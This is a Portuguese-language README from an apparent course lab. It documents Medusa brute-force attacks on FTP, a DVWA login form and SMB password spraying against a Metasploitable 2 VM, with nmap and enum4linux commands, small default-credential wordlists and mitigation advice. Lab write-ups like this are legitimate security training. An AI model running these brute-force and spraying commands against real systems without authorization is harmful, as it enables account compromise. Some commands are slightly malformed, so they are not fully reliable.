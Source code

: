 **Projeto: Ataques de Força Bruta com Kali + Medusa (Ambiente Controlad**o)



Este repositório contém a documentação do desafio DIO: montar um ambiente com Kali Linux e Metasploitable 2, usar a ferramenta Medusa para executar ataques de força bruta em serviços (FTP, formulários web, SMB), registrar comandos, wordlists simples, evidências e recomendações de mitigação. Tudo pensado para ambiente de teste controlado (VirtualBox — host-only / rede interna).



⚠️ **Aviso legal: execute estes testes apenas em ambientes controlados e com autorização explícita. Ataques contra sistemas que você não possui/permissão são ilegais.**



* Conteúdo do repositório
* README.md (este arquivo)
* commands.txt (todos os comandos usados)
* images/ (screenshots)



**Objetivos do projeto:**



1. Configurar duas VMs (Kali e Metasploitable 2) no VirtualBox com rede host-only / interna.
2. Realizar ataques de força bruta com Medusa em FTP, formulário web e password spraying no SMB (com enumeração de usuários).
3. Documentar wordlists, comandos, validação de acesso e recomendações de mitigação.
4. Estrutura das VMs (configuração sugerida)
5. Instalar VirtualBox.
6. Criar rede Host-Only (ou Internal Network) em VirtualBox (ex: vboxnet0).
7. VM Kali: adaptador 1 → NAT (internet, opcional para instalar pacotes), adaptador 2 → Host-Only vboxnet0 (IP 192.168.56.102).
8. VM Metasploitable2: 1 adaptador → Host-Only vboxnet0 (IP 192.168.56.101).
9. Verifique conectividade: no Kali, ping 192.168.56.101.
10. Kali Linux ( medusa, nmap, enum4linux)
11. Metasploitable 2 (contém serviços FTP, SMB, DVWA etc).
12. Medusa (audit tool para brute force; módulo ex.: ftp, http\_form, smbnt).



**Comandos - varredura inicial**



Descobrir serviços com nmap:


```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```


**Ataque FTP com Medusa**



Objetivo: força bruta contra usuário conhecido (ex: admin) com uma wordlist pequena.



\# Exemplo: testar usuário admin com wordlists no host 192.168.56.101

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```


**Explicação das flags:**



-h host alvo



-u usuário único (use -U para arquivo de usuários)



-P caminho da wordlist de senhas



-M ftp módulo FTP



-T 6 threads (ajuste conforme ambiente)



-f encerra ao encontrar credenciais válidas



Validação: após encontrar credenciais, faça login com ftp:


```bash
ftp 192.168.56.101
```


**Ataque a formulário web (DVWA) com Medusa (http\_form)**



DVWA costuma ter login em /dvwa/login.php. Exemplo de uso do módulo http\_form (sintaxe pode variar conforme versão do Medusa; ajustar conforme sua instalação):



\# Exemplo genérico de http\_form (substitua os campos conforme o formulário real)

```bash
-m PAGE: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \

-m FORM: 'username=^USER^\&password=^PASS^\&Login=Login' \

-m 'FAIL=Login failed' -t 6
```

Validação: tente fazer login no navegador usando as credenciais encontradas



**Password spraying em SMB (com enumeração de usuários)**



* Fluxo recomendado:
* Enumerar usuários (usar enum4linux)
* Fazer password spraying: testar um conjunto pequeno de senhas em muitos usuários (evita lockouts por tentativa excessiva em um único usuário).



\# Enumeração com enum4linux

```bash
enum4linux -a 192.168.56.101 | tee enum4\_output.txt
```


\#Crie wordlists conforme ajuste:


```bash
echo -e "user\\nmsfadmin\\nservice" > smb\_users.txt
```

```bash
echo -e "password\\n123456\\nWelcome123\\nmsfadmin" > senhas spray.txt
```


Medusa smbnt (sintaxe genérica — ajuste conforme versão):



\# Usando arquivo de usuários (-U) e uma pequena wordlist (-P)

```bash
medusa -h 192.168.56.101 -U smb\_users.txt -P senhas\_spray.txt -M smbnt -t 2 -T 50
```


* Os parâmetros -t 2 (threads) -T 50 (timeout em segundos)
* ferramentas SMB de brute‑force normalmente tentam combinações de usuário × senha. Se você fornece uma lista de usuários e uma lista de senhas, a ordem pode ser: vertical (por usuário): para cada usuário tenta muitas senhas; ou horizontal / spraying: para vários usuários tenta poucas senhas comuns.



Validação: se houver credenciais válidas, usar smbclient para acesso:


```bash
smbclient -L //192.168.56.20 -U msfadmin
```


**Recomendações de mitigação (boas práticas):**



* Política de senhas fortes: comprimento mínimo, complexidade, bloqueio após tentativas falhas.
* Rate-limiting e account lockout (com política para evitar lockouts errôneos).
* Autenticação multifator (MFA) onde possível.
* Monitoramento/alertas: IDS/IPS, logs de autenticação e alertas para muitas tentativas de login.
* Segregação de serviços e atualizações (manter serviços atualizados).
* Hardening: desabilitar serviços desnecessários; configurar FTP seguro (SFTP/FTPS) ou desativar FTP.
* Whitelist de IPs para serviços administrativos, quando aplicável.
* Educação: conscientizar sobre reutilização de senhas e engenharia social.




